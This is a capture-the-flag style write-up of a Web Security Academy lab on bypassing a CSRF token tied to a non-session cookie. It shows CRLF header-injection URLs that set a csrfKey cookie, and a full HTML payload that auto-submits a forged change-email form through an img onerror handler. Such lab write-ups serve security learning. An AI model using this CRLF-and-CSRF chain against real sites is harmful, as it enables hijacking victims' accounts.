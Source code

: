 
# Lab: CSRF where token is tied to non-session cookie

## idea 
Here our csrf token is bind with a special cookie called **csrfkey**, in order to bypass this protection we need to 
inject our cookie in the  browser of the victim and then trigger the CSRF.

## exploitation

CSRF chain with CRLF vulnerability.
The search functionality add the last search string in a cookie named **LastSearchTerm**. Thanks to this functionality we can add extra headers.
In our case we need to add our "csrfKey=WeyIERiCXa9KiHb6IQxZclcnhIHyYDua" cookie. 
During my first attempt i try to simply add my cookie like that : 

https://MYLAB.web-security-academy.net/?search=;%0a%0dcsrfKey=WeyIERiCXa9KiHb6IQxZclcnhIHyYDua

But it don't work because ";" get remove and without escaping the current cookie LastSearchTerm with ";" , the added cookie (csrfKey=WeyIERiCXa9KiHb6IQxZclcnhIHyYDua)
is interpreted as a string.

After a few try and search , i found out that we can use "Set-cookie" in order to add our cookie:

https://MYLAB.web-security-academy.net/?search=%0a%0dSet-Cookie:%20csrfKey=WeyIERiCXa9KiHb6IQxZclcnhIHyYDua

Now we need to build our payload and to do so like the lab2 we can use img tag to send a first request to set our **csrfkey** cookie to the victim.
Once the cookie is set , we can send the form in order to change the password.


## payload :
```html
<form id="mon-formulaire" name="change-email-form" action="https://MYLAB.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evilWiener@gmail.re">
    <input required type=hidden name=csrf value="ppElrsAGnnmWGYquewpRzzdM0nwlUIaJ">
</form>

<script>
    let formulaire = document.getElementById("mon-formulaire");
</script>


<img src="https://MYLAB.web-security-academy.net/?search=%0a%0dSet-Cookie:%20csrfKey=WeyIERiCXa9KiHb6IQxZclcnhIHyYDua" onerror=formulaire.submit()>

```
